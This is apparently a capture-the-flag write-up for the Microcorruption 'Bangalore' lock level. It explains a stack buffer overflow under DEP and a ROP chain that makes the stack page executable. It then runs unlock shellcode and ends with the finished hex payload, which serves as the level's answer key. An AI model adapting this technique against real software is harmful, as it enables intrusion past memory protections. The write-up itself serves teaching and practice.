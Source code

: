 # Bangalore
> sourse code [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow  
> **Mitigation**: DEP  

## Analysis
pseudo code for `main`, assembly code [here](./dump.asm)
```c
void main() {
    set_up_protection();
    login();
}
```

What do `<set_up_protection>`?
```c
void set_up_protection() {
    mark_page_executable(0);
    int i = 1;
    for (; i < 0x44; i++) {
        mark_page_writable(i);
    }
    for (; i < 0x100; i++) {
        mark_page_executable(i);
    }
    turn_on_dep();
}
```

This function set up the memory protection and make sure a page is never both writable and executable.

What do `<login>`?
```c
void login() {
    ...
    gets(sp, 0x30);     // gets password
    ...
}
```

`<login>` read 0x30 bytes to the stack and return address at `sp + 0x10`. Therefore, with the program able to get `0x30`, the input can be used to overwrite the return address.

### Thought #1: ROP chain
With the **DEP** protection and the program without obvious directy function to unlock the door, probably need **ROP** chain to achieve the goal.
> Stack buffer is no executable, so no jumpping back to the stack and execute.

#### ROP chain
The goal for the ROP chain should be calling `#0x10` with sr set to a certain value to specify the interrupt for unlock.
From both how [`<INT>`](../Hanoi/dump.asm) is called from other program and the interrupt needed from the [manual](https://microcorruption.com/public/manual.pdf):

```asm
457a <INT>
457a:  1e41 0200      mov	0x2(sp), r14        ; 0x2(sp) = argument for specifying the interrupt
457e:  0212           push	sr
4580:  0f4e           mov	r14, r15
4582:  8f10           swpb	r15
4584:  024f           mov	r15, sr
4586:  32d0 0080      bis	#0x8000, sr
458a:  b012 1000      call	#0x10
458e:  3241           pop	sr
4590:  3041           ret
```

The interrupt number is specified by the argument at `sp + 0x2`. The interrupt number for unlock is `0x7f`.
Then, the value for `sr` will be set accordingly to `arg` by `sr = (((arg << 8) & 0xff00) | ((arg >> 8) & 0xff)) | 0x8000`.
Therefore, to unlock the door, the value for `sr` should be `0x7f00 | 0x8000 = 0xff00`.

That is, we need to find the following assembly code in the program:
```asm
; shellcode
3240 00ff      mov	#0xff00, sr
b012 1000      call	#0x10
```


For the ROP chain to work, we have to find the gadget in the program. Find all the `ret` instruction in the program:
```asm
0010 <__trap_interrupt>
0010:  3041           ret
...
445e:  0f4e           mov	r14, r15
4460:  3041           ret
...
4474:  3150 0a00      add	#0xa, sp
4478:  3041           ret
...
4498:  3b41           pop	r11
449a:  3041           ret
...
44ae:  3150 0a00      add	#0xa, sp
44b2:  3041           ret
...
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
...
44d8:  3150 0600      add	#0x6, sp
44dc:  3041           ret
...
4508:  3b41           pop	r11
450a:  3041           ret
450c:  3041           ret
...
450e <conditional_unlock_door>
450e:  0f43           clr	r15
4510:  3041           ret
...
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```
However, none of them is useful for the ROP chain. None of them can give us the ability to modiry the `sr` register; thus, unable to use the **ROP** chain to unlock the door.

### Thought #2: make stack executable
Instead of using the executable section in program, just make the stack executable and the shellcode on the stack directly.

Stack pointer, `sp`, is `0x3fee`, when receiving the input and will take input of size `0x30`. Check which page is the stack in:
(use simple [c code](./test.c) to check pages/memories protection)
```text
rwx	page	address
...
w:	63		0x3f00
w:	64		0x4000
w:	65		0x4100
w:	66		0x4200
w:	67		0x4300
x:	68		0x4400
x:	69		0x4500
x:	70		0x4600
...
```

Therefore, the target is to set the page, `63`, to executable and put the shellcode, `mov #0xff00, sr; call #0x10`, at the beginning of the input and use the buffer from `0x10` to first replace the original return address and set up ROP chain to make *paget 63* executable.

#### Make page executable
Try to call `<mark_page_executable>` directly,
```asm
44b4 <mark_page_executable>
44b4:  0e4f           mov	r15, r14
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
```

However, this way we will need to put the page number to `r15` which is impossible.

Looking into the code right before it trigger the interrupt, it pushes `0x0` and `page number` on the stack at `0x44b6 and 0x44b8`. That is, the stack layout should be as the following:
|                |                 stack                  |
| :------------: | :------------------------------------: |
|                |                  ...                   |
| return address |                 0x44ba                 |
|                |                  0x0                   |
|                |                   63                   |
|                | address when return back from `0x44ca` |

After marking the stack executable, the program should jump back to the start of the input where we put the `shellcode`. Therefore, the input should be as following,
| address | `sp`  |                            value                            |
| :-----: | :---: | :---------------------------------------------------------: |
|  3fee   |  +0   |                         *shellcode*                         |
|   ...   |  ...  |                          (padding)                          |
|  3ffe   | +0x10 |      `0x44ba`, address within `<mark_page_executable>`      |
|  4000   | +0x12 |               63, page to mark as executable                |
|  4002   | +0x14 |                             0x0                             |
|  4004   | +0x16 | `0x3fee`, execute *shellcode* after marking page executable |

## Exploit
```python
In [18]: shellcode = b'\x32\x40\x00\xff\xb0\x12\x10\x00'
In [21]: def b2h(b):
    ...:     return ''.join(f'{c:02x}' for c in b)
    ...: 

In [22]: b2h(shellcode.ljust(0x10, b'a') + p16(0x44ba) + p16(63) + p16(0) + p16(0x3fee))
Out[22]: '324000ffb01210006161616161616161ba443f000000ee3f'
```

<!-- solution: {\"level_id\":16,\"input\":\"324000ffb01210006161616161616161ba443f000000ee3f;\"} -->
